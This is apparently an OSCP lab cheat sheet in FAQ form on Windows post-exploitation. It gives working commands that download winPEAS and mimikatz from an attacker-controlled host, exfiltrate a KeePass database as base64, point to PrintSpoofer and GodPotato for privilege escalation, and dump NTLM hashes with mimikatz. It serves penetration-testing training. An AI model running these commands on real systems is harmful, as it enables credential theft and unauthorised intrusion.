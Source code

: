 - **How to transfer files?** \
Simply do Invoke-WebRequest to your Linux (`cd ~/tmp; python3 -m http.server 80`)
```powershell
cd C:/users/public
iwr -uri http://192.168.45.198/winPEASx64.exe -Outfile winPEAS.exe
```

- **How to transfer files to internal network host?** \

1. In labs internal network routes to our Kali box, so any method would work e.g. iwr
2. Use evil-winrm:
Connect with evil-winrm (see ./ad.sh) and use the upload/download command.
Otherwise, idk a bit cumbersome probably: try in two stages? For instance, via intermediate SMB share or SSH tunnel?
3. Impacket: we should be able to use psexec or wmiexec and the command `lput` (=upload) or `lget` (=download).
"Note: By default whether you upload (lput) or download (lget) a file, it'll be written in C:\Windows path." - OSCP discord
4. RDP shared folder might work
5. If no other option, copy file via base64 encoded text (example below)
6. (or just copy it in two steps via intermediary host)
7. Note if you can use, web server, ssh, or anything else available

- **I have shell on server but no way to transfer file (data exfiltration)** \

First of all are you sure? (Impacket / evil-winrm / RDP ?)
**Answer:** Copy it in text format base64

Transfer binary from Windows to Kali
```powershell
# Read binary file as bytes
$fileBytes = Get-Content -Path "C:\Users\jim\Documents\Database.kdbx" -Encoding Byte
# Convert to Base64
$base64String = [System.Convert]::ToBase64String($fileBytes)
# Output Base64 string
Write-Output $base64String

# Optional, verify both side with SHA1
certutil -hashfile "C:\Users\jim\Documents\Database.kdbx" SHA1
```


- **How to privilege escalate?** \
Mainly use PrintSpoofer (or GodPotato) if `whoami /all` shows Impersonate, otherwise need to hack a little. \
(See question below -> "I’m stuck what should I do"
1. Look in files (also ps history, environment vars). Note keys, password manager, SAM, potential passwords/hints ..
2. Automatic tasks or service - .dll or .exe - hijacking (especially for unusual services, dig a little, config files..)
3. Internal sockets 

GodPotato: <https://github.com/BeichenDream/GodPotato>

- **How to find passwords/hashes** \
Use mimikatz (if you're admin), also search local files as mentioned earlier.
```powershell
cd C:/users/public
iwr -uri http://192.168.45.198/mimikatz.exe -Outfile mimikatz.exe

## Shortcuts ##
# Useful -> Print all user+ntlm (double check nothing was missed)
./mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords full" "exit"   | Select-String 'ntlm' -Context 2,0 | % { $_.Context.PreContext; $_.Line }
./mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam sam.hiv security.hiv system.hiv" "exit" |  Select-String 'hash ntlm' -Context 1,0 | % { $_.Context.PreContext; $_.Line }
# Get all unique NTLM hashes:
./mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords full" "exit" | sls ntlm | sort | unique
```